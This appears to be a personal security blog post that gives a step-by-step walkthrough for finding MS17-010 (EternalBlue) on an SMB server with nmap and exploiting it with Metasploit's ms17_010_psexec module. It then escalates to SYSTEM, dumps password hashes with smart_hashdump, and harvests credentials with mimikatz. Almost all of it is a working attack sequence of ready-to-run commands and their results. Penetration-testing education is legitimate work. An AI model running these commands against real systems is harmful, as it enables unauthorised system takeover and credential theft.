 ```yaml
---
layout: post
title: How to find SMB vulnerabilities with nmap plus example ms17-010 
featured-img: WannaCry-ransom
categories: Guides nmap hacking ms17-010 smb1
mathjax: true
---
```


## How to use the Nmap Scripting Engine to test for SMB vulnerabilities: 

1. Run `nmap --script  vuln -p139,445 192.168.0.18` from your terminal. Change 192.168.0.18 to your target's IP address.

![example command](../assets/nmap/nmap1.jpg)

2. The result is `Vulnerable` to ms17-010 or CVE-2017-0143 - AKA EternarlBlue which was used by the WannaCry ransomware. This exploit allows an attacker to gain full control of a server/computer hosting a share using SMBv1. 


## Exploiting the found vulnerability (ms17-010): 

1. Open metasploit `msfconsole`
2. type `search ms17-010`

![](../assets/nmap/msfconsole.jpg)

3. As you can see, there are a few modules found. 
4. Let's confirm our nmap finding with the metasploit scanner: 
   
    `use scanner/smb/smb_ms17_010`
    
    `set rhosts 192.168.0.18` - change 192.168.0.18 to your target's IP address. 
    
    `run`
    
![](../assets/nmap/smbms17010.png)
    
5. We have now confirmed the machine is vulnerable and that it is a Windows Server 2008 R2.  
6. If we go back to our list of modules, Metasploit has a few exploits available. 

![](../assets/nmap/msfconsole.jpg)

7. I tried All and `ms17_010_psexec` was the only successful one. The other were not compatible or immediately bluescreened the server. 

![](../assets/nmap/disconnect.png)

8. To use this exploit, type: 
    
    `use windows/smb/ms17_010_psexec` hit enter
    
    `set LPORT 4445` switch to whatever you want. This is the port where you will be listening for the meterpreter connection. 
    
    `exploit`
    
![](../assets/nmap/shell.png)

9. We got a shell on the remote system. 

From here you can escalate privileges if necessary: 

    `getuid` - if you are not SYSTEM run `getsystem`

If successful, then you can do `run smart_hashdump` and get all users and their password hashes. Metasploit automatically saves them to /root/.msf4/loot/ where you can crack them later. 

![](../assets/nmap/smart_hashdump.png)

You can also run mimikatz at this point: 

    `use kiwi`
    `creds_all`

![](../assets/nmap/credskiwi.png)

When I tried creds_msv the server crashed. 

![](../assets/nmap/creds_msvcrash.png)

I will be creating another blog post on mitigating this vulnerability and a  memory digital forensics analysis using Volatility for this server.  
















